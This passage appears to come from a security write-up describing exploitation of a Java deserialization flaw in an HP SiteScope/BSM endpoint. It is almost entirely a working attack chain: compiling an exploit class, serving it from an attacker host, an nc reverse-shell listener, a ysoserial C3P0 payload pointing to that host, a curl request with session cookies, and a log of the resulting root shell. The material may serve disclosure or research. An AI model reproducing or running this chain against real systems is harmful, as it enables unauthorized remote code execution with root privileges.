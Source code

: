 The *ExploitClass* code needs to be compiled with Java 8:

```/usr/lib/jvm/java-8-openjdk-amd64/bin/javac ExploitClass.java```

We then start a Python server serving the object, as well as a listener to receive the reverse shell (assuming we're attacking a Linux server):

```sh
python -m SimpleHTTPServer 4444 &
nc -lvknp 8888
```

Generate the payload with our newline compiled *ysoserial*:

```sh
java -jar ysoserial-0.0.6-SNAPSHOT-all-c3p0-0.9.1.2.jar C3P0 "http://10.10.10.1:4444/:ExploitClass" > /tmp/payload.ser
```

And finally send the request to the server:

```sh
COOKIE='Cookie: JSESSIONID=xQJJmHDwOQMlAL93PaLPE4PA; LWSSO_COOKIE_KEY=mqx8GAJdW7M8dh5bO99hiZjXAgOHmdteaLsy_c9N77F6n2fFB_XWpe0wDHnpG-x2RbOHNm3H7hjHsmYpRc4PPg2ohEFN7duztvJD0M_u3GUcg_YUJPy5c6ewbqi61FRllh0AoNwAb5K-1fN-uRVK0c8yEVVIkBbxn9vxsCEhofRbZNdtnDQMb3WUeb7yInwRAzfPICWMnE5iuJ_TTyTDlw..;'

curl -i -s -k -X $'POST' \
	-H $'Host: 10.10.10.99' \
	--data-binary @/tmp/payload.ser \
	-H $'Content-Type: application/octet-stream' -H 'Expect:' -H "$COOKIE"  \
   $'https://10.10.10.99/legacy/topaz/sitescope/conf/registration'
```
> Snippet G: *curl* requests to trigger the Java deserialization


This results in the a request for *ExploitClass* received by the Python web server, followed by our reverse shell:

```sh
10.10.10.99 - - [] "GET /ExploitClass.class HTTP/1.1" 200 -
connect to [10.10.10.1] from (UNKNOWN) [10.10.10.99] 55340
whoami
root
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
uname -a
Linux centos7.nat 3.10.0-1062.18.1.el7.x86_64 #1 SMP Tue Mar 17 23:49:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
ls
hpbsmd.pid
libwrapper.so
nannyWrapperRunner.sh
wrapper
wrapper.jar
pwd
/opt/HP/BSM/supervisor/wrapper
```
